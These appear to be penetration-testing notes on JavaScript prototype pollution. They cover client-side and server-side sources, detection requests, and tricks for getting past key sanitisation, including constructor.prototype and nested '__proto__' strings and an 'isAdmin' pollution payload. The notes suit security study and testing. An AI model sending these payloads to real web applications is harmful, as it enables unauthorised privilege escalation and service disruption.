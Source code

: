 # Prototype pollution

More info: [https://www.netspi.com/blog/technical-blog/web-application-pentesting/ultimate-guide-to-prototype-pollution/](https://www.netspi.com/blog/technical-blog/web-application-pentesting/ultimate-guide-to-prototype-pollution/)

<details>

<summary>Introduction</summary>

```javascript
var my_object = {a:1, b:2}
```

Access the value of "a"

```javascript
console.log(my_object.a)     // Output: 1 
// functionally equivalent to... 
console.log(my_object["a"])  // Output: 1
```

Add a property

<pre class="language-javascript"><code class="lang-javascript"><strong>my_object["c"] = 3
</strong>// or... 
my_object.c = 3
</code></pre>

Every object has a `__proto__` (or prototype) property too which points to that object’s ‘prototype’, allowing it to inherit properties and methods.



If we try to access a property that doesn’t exist on `my_object`, JavaScript will next look to see if it is part of the next Object’s **proto** property

```javascript
empty_object = {} 
Object.prototype.x = 'test' 
console.log(empty_object.x) // test
```



```javascript
// Empty object. 
blank_object = {} 
// Object with a few properties
my_object = {a:1, b:2} 
// Define the 'z' property on the '__proto__' object of 'my_object': 
my_object["__proto__"]["z"] = "test" 

console.log(my_object.z)     // Output: test
console.log(blank_object.z)  // Output: test
console.log(Object.z)        // Output: test

// Note: here we add a 'z' property on the __proto__ object of 'my_object',
// that in this case is "Object".
```



```javascript
s = "test"
s.__proto__                         // String { .... }

// Define the 'z' property on the '__proto__' object of 's': 
s["__proto__"]["z"] = "bar"
console.log(s.z)                    // Output: bar

// Create another string ...
x = "test"
console.log(x.z)                    // Output: bar

// Create an object ...
obj = {}
console.log(obj.z)                    // Output: undefined

// Here we add a 'z' property on the __proto__ object of 's',
// that in this case is "String". So now all object all objects 
// that inherit "String" object have this property.
```







</details>

## <mark style="color:yellow;">Prototype pollution sources</mark> <a href="#prototype-pollution-sources" id="prototype-pollution-sources"></a>

The three most common JavaScript patterns that can lead to prototype pollution are merging, cloning, and value setting operations. Anytime an object is dynamically built from user input, there's a risk of prototype pollution.

<details>

<summary>Real World Example – jQuery Deparam </summary>

to do

</details>

## <mark style="color:yellow;">Client-side prototype pollution (manual)</mark> <a href="#finding-client-side-prototype-pollution-sources-using-dom-invader" id="finding-client-side-prototype-pollution-sources-using-dom-invader"></a>

### <mark style="color:yellow;">**Finding sources**</mark>  <a href="#finding-client-side-prototype-pollution-sources-manually" id="finding-client-side-prototype-pollution-sources-manually"></a>

**In the URL**

1. Using a common XSS source, such as the URL parameters or hash, set a \_\_proto\_\_ payload, like this:

```
https://example.com/?__proto__[polluted]=Polluted 
// or  
https://example.com/#__proto__[polluted]=Polluted 
// or  
https://example.com/?__proto__.polluted=Polluted 
```

2. Check `Object.prototype` in your browser console to see if the property was successfully added:

```javascript
Object.prototype.polluted // "Polluted" = successful pollution // undefined = failed attempt
```

3. Repeat with different sources

An important point is that the `[]` and `.` notations are not valid JavaScript in this context; they are defined by the developer. So the pattern you should look for in any source is ‘nesting’

Ridiculous example

```
https://example.com?firstParam=__prototype__&secondParam=polluted&thirdParam=Polluted 
https://example.com?param->__proto__->polluted=Polluted 
```

***

**In JSON**

Any kind of JSON. E.g. a JWT could be parsed client-side for example, without any kind of validation.

```json
{ 
  "alg": "HS256", 
  "typ": "JWT", 
  "kid": "123", 
  "__proto__": { 
      "polluted": "Polluted" 
  } 
} 
```

### <mark style="color:yellow;">**Finding gadgets**</mark>

Being able to affect the global `__proto__` property is not very useful unless you can use it to affect other parts of the code.

{% hint style="success" %}
**Tip**: Third-party libraries of prototype pollution gadgets[https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)
{% endhint %}

## <mark style="color:yellow;">Client-side prototype pollution (with DOM Invader)</mark>

**Finding sources**

[https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution)

**Finding gadgets**

[https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets)

## <mark style="color:yellow;">Server-side prototype pollution</mark> <a href="#finding-client-side-prototype-pollution-sources-using-dom-invader" id="finding-client-side-prototype-pollution-sources-using-dom-invader"></a>

Javascript in the backend

<details>

<summary>Introduction</summary>

An easy trap for developers is overlooking that a JavaScript for...in loop iterates over all of an object's enumerable properties, including inherited ones from the prototype chain.

```javascript
// Example with "object"
const myObject = { a: 1, b: 2 };

// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}

// Output: a, b, foo
```

```javascript
// Example with "array"
const myArray = ['a','b'];
Object.prototype.foo = 'bar';

for(const arrayKey in myArray){
    console.log(arrayKey);
}

// Output: 0, 1, foo
```

</details>

{% hint style="warning" %}
**Warning**: It's easy to unintentionally cause a denial-of-service (DoS), making testing in production risky. In addition, once a server-side prototype is polluted, the change persists for the entire lifetime of the Node process, with no way to reset it.
{% endhint %}

**Detection - (polluted property reflection)**

Attempt to pollute the global `Object.prototype` with an arbitrary property in a `POST` / `PUT` request

```http
POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "foo":"bar"
    }
}
```

```http
HTTP/1.1 200 OK
...
{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "foo":"bar"
}
```

**Detection - (without polluted property reflection \[Automatic])**

Server-Side Prototype Pollution Scanner (Burp extension)

Right click on the request -> Extensions -> Server-Side Prototype Pollution Scanner -> Server-Side Prototype Pollution

## <mark style="color:yellow;">Bypassing defenses</mark>

### <mark style="color:yellow;">Via the constructor</mark>

A common defense is to remove any properties with the key `__proto__` from user-controlled objects before merging them.

Use `myObject.constructor.prototype` that is equivalent to `myObject.__proto__`

```
vulnerable-website.com/?foo.constructor.prototype=bar
```

```json
{
   "constructor":{
      "prototype":{
         "isAdmin":"true"
      }       
   }
}
```

### <mark style="color:yellow;">Bypassing flawed key sanitization</mark>

Read the js code to understand the defenses. E.g. bypass the strips of `__proto__`

```
vulnerable-website.com/?__pro__proto__to__[foo]=bar
```

